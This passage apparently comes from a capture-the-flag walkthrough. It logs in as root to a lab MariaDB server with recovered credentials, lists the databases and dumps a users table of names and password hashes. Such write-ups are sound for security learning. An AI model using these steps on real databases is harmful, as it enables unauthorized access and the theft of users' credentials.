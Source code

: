 With these credentials we can login to mysql
```bash
 mysql -h 10.10.151.214 -u root -p --ssl=0
```

```output
Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]

```

```bash
ariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| news               |
| performance_schema |
| phpmyadmin         |
| test               |
+--------------------+
6 rows in set (0.051 sec)

MariaDB [(none)]> use news
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [news]> show tables;
+----------------+
| Tables_in_news |
+----------------+
| users          |
+----------------+
1 row in set (0.022 sec)

MariaDB [news]> show tablesss
    -> ^C
MariaDB [news]> show tables;
+----------------+
| Tables_in_news |
+----------------+
| users          |
+----------------+
1 row in set (0.020 sec)

MariaDB [news]> select * from users;
+----+------------+--------------+-----------+----------------------------------+
| id | first_name | short_handle | last_name | password                         |
+----+------------+--------------+-----------+----------------------------------+
|  1 | Robert     | rsmith       | Smith     | 7e7abb54bbef42f0fbfa3007b368def7 |
|  2 | Eric       | ewalters     | Walters   | d6e81aeb4df9325b502a02f11043e0ad |
|  3 | Christine  | cpowers      | Powers    | e3d3eb0f46fe5d75eed8d11d54045a60 |
+----+------------+--------------+-----------+----------------------------------+
3 rows in set (0.038 sec)

```
